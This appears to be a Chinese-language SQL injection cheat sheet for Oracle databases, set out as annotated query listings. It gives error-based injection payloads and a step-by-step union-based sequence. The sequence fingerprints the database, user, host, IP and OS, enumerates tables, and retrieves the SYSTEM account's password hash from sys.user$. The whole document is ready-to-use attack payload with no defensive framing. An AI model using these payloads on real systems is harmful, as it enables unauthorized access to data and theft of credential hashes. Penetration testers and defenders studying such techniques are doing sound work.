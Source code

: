 
## 常见注入语句 ##
报错注入
```
select utl_inaddr.get_host_name((select user from dual)) from dual
select ctxsys.drithsx.sn(1, (select user from dual)) from dual;
select CTXSYS.CTX_REPORT.TOKEN_TYPE((select user from dual), '123') from dual;
select XMLType('<:'||(select user from dual)||'>') from dual;
select dbms_xdb_version.makeversioned((select user from dual)) from dual;
```

常规注入
```
# 判断注入是否存在
select id,username from users where username='admin' and 1=2;
select id,username from users where username='admin' and 1=1;

# 跑字段数量
select id,username from users where username='admin' order by 2;

# 获取注入位置 (要用null来代替空位置不然会报错)
select id,username,password from users where username='admin' union select null,null,null from dual;

ps:查询数据不能超过1行不然会报错,并且只能有一个字段的内容
# 查询数据库版本
select id,username,password from users where username='admin' union select null,(SELECT banner FROM v$version WHERE banner LIKE 'Oracle%'),null from dual;

# 获取当前所在数据库
select id,username,password from users where username='admin' union select null,(SELECT name FROM v$database),null from dual;

# 获取当前数据库用户
select id,username,password from users where username='admin' union select null,(select user from dual),null from dual;

# 查询当前数据库用户的hash
select id,username,password from users where username='admin' union select null,(select * from (select password from sys.user$ where user='SYSTEM') where rownum=1),null from dual;

# 获取主机名
select id,username,password from users where username='admin' union select null,(SELECT host_name FROM v$instance),null from dual;

# 查询IP
select id,username,password from users where username='admin' union select null,(SELECT UTL_INADDR.get_host_address FROM dual),null from dual;

# 查询系统
select id,username,password from users where username='admin' union select null,(SELECT dbms_utility.port_string FROM dual),null from dual;

# 查询指定用户的数据库名
select id,username,password from users where username='admin' union select null,(select DEFAULT_TABLESPACE from dba_users where USERNAME='HR'),null from dual;

# 查询当前用户的表
select id,username,password from users where username='admin' union select null,(select table_name from user_tables where rownum=1),null from dual;

# 查询当前用户的表 (排除指定的表名，获取下一个表名)
select id,username,password from users where username='admin' union select null,(select table_name from user_tables where table_name <> 'AQ$_INTERNET_AGENTS' and rownum=1),null from dual;
```